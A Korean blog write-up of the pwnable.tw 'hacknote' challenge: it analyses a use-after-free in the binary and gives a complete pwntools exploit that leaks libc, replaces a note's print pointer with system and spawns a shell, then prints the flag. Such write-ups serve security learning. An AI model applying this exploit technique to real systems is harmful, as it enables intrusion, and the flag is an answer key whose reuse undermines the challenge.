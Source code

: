 ```yaml
---
layout: post
title: "[pwnable.tw] hacknote 풀이"
date: 2018-08-01 04:44
categories: "[Pwn]pwnable.tw"
tags: rotles98
---
```


>## hacknote [200 pts]
### A good Hacker should always take good notes!
### `nc chall.pwnable.tw 10102`
### [hacknote](https://pwnable.tw/static/chall/hacknote)
### [libc.so](https://pwnable.tw/static/libc/libc_32.so.6)

- - -
# 0x00. 분석

{: refdef: style="text-align: center;"}
![file](/img/pwnable.tw/hacknote/01.png){: width="50%"}
{: refdef}

평범평범

{: refdef: style="text-align: center;"}
![main](/img/pwnable.tw/hacknote/02.png){: width="50%"}
{: refdef}

UAF!

{: refdef: style="text-align: center;"}
![func_alloc](/img/pwnable.tw/hacknote/03.png){: width="50%"}
{: refdef}

우선 func_add를 보면 특이하게 `puts_next`라는 함수를 청크에 넣어주네요.

{: refdef: style="text-align: center;"}
![func_fill](/img/pwnable.tw/hacknote/04.png){: width="50%"}
{: refdef}

`puts`의 인자가 특이하네요. 아마 `func_print`에서 쓰려고 넣어둔거 같아요.

{: refdef: style="text-align: center;"}
![func_fill](/img/pwnable.tw/hacknote/05.png){: width="50%"}
{: refdef}

`func_delete`는 별거 없고 `func_print`를 보면 `(*note_list[v1])(note_list[v1])`으로 위에서 본 `puts_next`를 사용해서 출력하네요.

- - -
# 0x01. 취약점 증명

우선 `UAF`가 잘 되는지 봐야하니까 대충 아무 값이나 넣어서 확인해 볼게요.

```python
def func_add(size, content):
	s.recvuntil("Your choice :")
	s.sendline("1")
	s.recvuntil("Note size :")
	s.send(str(size))
	s.recvuntil("Content :")
	s.send(content)

def func_delete(index):
	s.recvuntil("Your choice :")
	s.sendline("2")
	s.recvuntil("Index :")
	s.send(str(index))

def func_print(index):
	s.recvuntil("Your choice :")
	s.sendline("3")
	s.recvuntil("Index :")
	s.send(str(index))
```

함수 선언

```python
func_add(16, "A")
func_add(16, "B")
func_delete(0)
func_delete(1)

func_add(8, "C"*8)
func_print(0)
```

{: refdef: style="text-align: center;"}
![func_fill](/img/pwnable.tw/hacknote/06.png){: width="50%"}
{: refdef}

타란!

이제 	`puts_next`자리에 다른 함수의 주소를 넣거나 `puts_next`의 인자를 바꾸거나 등을 할 수 있어요.

- - -
# 0x02. 공격 방법

1. memory leak

2. `puts_next`대신 `system`을 넣음

3. 인자를 조절해 `system("/bin/sh")` 실행


처음엔 memory leak부터 해야해요.

그러니까 `puts_next`는 일단 가만히 두고 그 인자로 `puts_got`를 넣을게요.

```python
puts_got = elf.got["puts"]
puts_off = libc.symbols["puts"]
system_off = libc.symbols["system"]

func_add(16, "A")
func_add(16, "B")
func_delete(0)
func_delete(1)

payload = p32(puts_next)
payload += p32(puts_got)

func_add(8, payload)
func_print(0)
real_puts = u32(s.recv(4))

real_base = real_puts - puts_off
real_system = real_base + system_off

print "[*] real_base : " + hex(real_base)
print "[*] real_puts : " + hex(real_puts)
print "[*] real_system : " + hex(real_system)
```

{: refdef: style="text-align: center;"}
![func_fill](/img/pwnable.tw/hacknote/07.png){: width="50%"}
{: refdef}

"/bin/sh"의 주소를 안 구하는 이유는 아까 위에서 본 함수 호출 방식 때문이에요.

`puts_next`는 `*(al+4)`를 사용해서 인자를 받아서 상관없었는데 `puts_next`대신 `system`을 넣으면 `system(real_system~~~~)` 이런식으로 실행이 되어서 "/bin/sh" 문자열의 주소가 아닌 문자열 그 자체를 넣어줘야해요.

그리고 `system(real_system;/bin/sh\0)` 이런식으로 세이콜론을 사용해서 `system("/bin/sh")`를 실행시킬거라서 12자가 넘어가요. 그러면 다른 위치로 청크를 만들어서 `UAF`가 발생하지 않아요.

그래서 "/bin/sh"대신 "sh", "dash", "bash" 등을 사용해야해요.

- - -
# 0x03. 익스플로잇

"sh"는 안돼서 "dash"로 했어요.

```python
from pwn import *
#context.log_level = "debug"

#HOST = "localhost"
HOST = "chall.pwnable.tw"
#PORT = 4444
PORT = 10102

s = remote(HOST, PORT)

elf = ELF("./hacknote")
#libc = ELF("./libc-2.27.so")
libc = ELF("./libc_32.so.6")
pause()

puts_next = 0x0804862b
puts_got = elf.got["puts"]
puts_off = libc.symbols["puts"]
system_off = libc.symbols["system"]

def func_add(size, content):
	s.recvuntil("Your choice :")
	s.sendline("1")
	s.recvuntil("Note size :")
	s.send(str(size))
	s.recvuntil("Content :")
	s.send(content)

def func_delete(index):
	s.recvuntil("Your choice :")
	s.sendline("2")
	s.recvuntil("Index :")
	s.send(str(index))

def func_print(index):
	s.recvuntil("Your choice :")
	s.sendline("3")
	s.recvuntil("Index :")
	s.send(str(index))

func_add(16, "A")
func_add(16, "B")
func_delete(0)
func_delete(1)

payload = p32(puts_next)
payload += p32(puts_got)

func_add(8, payload)
func_print(0)
real_puts = u32(s.recv(4))

real_base = real_puts - puts_off
real_system = real_base + system_off

print "[*] real_base : " + hex(real_base)
print "[*] real_puts : " + hex(real_puts)
print "[*] real_system : " + hex(real_system)

payload = p32(real_system)
payload += ";dash"

func_delete(2)
func_add(12, payload)
func_print(0)

s.interactive()
```

### FLAG{Us3_aft3r_fl3333_in_h4ck_not3}
